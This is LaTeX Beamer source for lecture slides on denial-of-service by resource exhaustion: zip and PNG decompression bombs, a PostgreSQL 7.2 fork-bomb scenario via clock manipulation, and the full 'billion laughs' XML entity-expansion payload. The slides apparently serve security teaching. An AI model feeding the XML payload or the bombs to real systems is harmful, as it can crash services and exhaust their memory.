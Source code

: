\documentclass{beamer}
\begin{document}
\begin{frame}{ZIP}
  \begin{itemize}
  \item Infinite recursive zip: e.g. r.zip
  \item<2-> Bombs (e.g. non recursive files)    
    \begin{itemize}
      \item gzip: 100 GB, 97 MB compressed, 1000:1 ration
      \item bzip2: 100 GB, 69 KB, $1.6*10^6$:1
      \item PNG image: 19000 x 19000, 1-bit (45 MB) expand in 24-bit
        color to 1 GB, 44 KB compressed, 1000:1
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}[fragile]{XML}
  \footnotesize \begin{verbatim}
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
  \end{verbatim}
  \begin{itemize}
    \item 1 KB file
    \item 3GB XML (DOM worst)
  \end{itemize}
\end{frame}

\begin{frame}{Fork Bomb}
  \begin{itemize}
  \item PostgreSQL 7.2
  \item Uses elapsed milliseconds to compute number of thread to spawn
  \item No limit check
  \item<2-> What happen if you advance the date of one year?
  \item<3-> Network Time Protocol attack
 \end{itemize}
\end{frame}
\end{document}
